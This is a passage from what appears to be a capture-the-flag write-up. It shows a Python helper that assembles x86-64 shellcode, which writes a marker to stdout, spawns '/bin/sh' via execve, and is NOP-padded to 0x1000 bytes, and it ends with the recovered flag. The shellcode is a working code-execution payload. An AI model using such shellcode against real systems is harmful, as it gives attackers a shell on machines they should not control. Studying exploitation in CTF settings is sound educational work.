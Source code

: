 ```python
    mov rax, 0x41424344
    push rax
    mov rsi, rsp
    MOV        EDI,0x1
    mov eax, 1
    syscall
    pop rax

    // SHELLCODEEEEEE
    xor     rdx, rdx
    lea rbx, [rip+binsh]
    mov     rdi, rbx
    push    rdx
    push    rbx
    mov     rsi, rsp
    mov     eax, 0x3b
    syscall

    hang:
    jmp hang

    /************* Data section *************/
    binsh:
    .ascii "/bin/sh\\0"

    // exit stuff. probably unnecessary
    POP        R12
    POP        R13
    POP        R14
    POP        R15
    POP        RBP
    RET
    ''')
    
    print(f'Shellcode is {hex(len(shellcode))}/0x1000 bytes long')
    padded_shellcode = shellcode + b'\x90'*(0x1000 - len(shellcode)) # pad with NOPs.
    assert(len(padded_shellcode) == 0x1000)
    return padded_shellcode
```

And when we send our payload, we finally get the flag!!!

`flag{8d13cfa357978684be9809172d3033ce739015f5}`
